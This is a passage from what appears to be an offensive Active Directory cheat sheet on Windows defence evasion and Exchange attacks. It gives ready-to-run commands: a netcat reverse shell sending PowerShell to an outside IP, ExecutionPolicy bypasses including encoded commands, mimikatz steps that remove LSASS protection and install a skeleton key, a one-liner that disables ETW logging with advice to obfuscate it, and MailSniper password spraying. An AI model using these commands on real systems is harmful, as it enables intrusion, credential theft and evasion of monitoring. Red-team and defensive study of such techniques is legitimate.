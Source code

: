 > Bypass JEA in ConstrainedLanguage :

```
{ C:\Windows\System32\spool\drivers\color\nc.exe -e powershell.exe 10.10.14.33 9003 }
```

#### ExecutionPolicy

```
powershell -ExecutionPolicy Bypass -File C:\script.ps1
```

> bypass EP using encoding :

```
$command = "Write-Host 'hello world'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command);$encoded = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encoded
```

#### RunAsPPL for Credentials Dumping

\[ ❓ ] : [RunAsPPL](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) is an **additional LSA protection** to prevent reading memory and code injection by **non-protected processes**.

> bypass RunAsPPL with mimikatz :

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

#### ETW Disabling

```
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

you can try obfuscation techniques on this command. To learn more about ETW see my course [here](https://github.com/RistBS/Active-directory-Cheat-sheet/blob/exploit-development/FR%20-%20ETW%20Bypassing.md)

### MS Exchange

#### OWA EWS and EAS Password Spraying

> using [MailSniper](https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1) :

```
# OWA (Outlook web App)
Invoke-PasswordSprayOWA -ExchHostname $domain -UserList .\users.txt -Password $password
# EAS (Exchange ActivSync)
Invoke-PasswordSprayEAS -ExchHostname $domain -UserList .\users.txt -Password $password
# EWS (Exchange Web Service)
Invoke-PasswordSprayEWS -ExchHostname $domain -UserList .\users.txt -Password $password
```
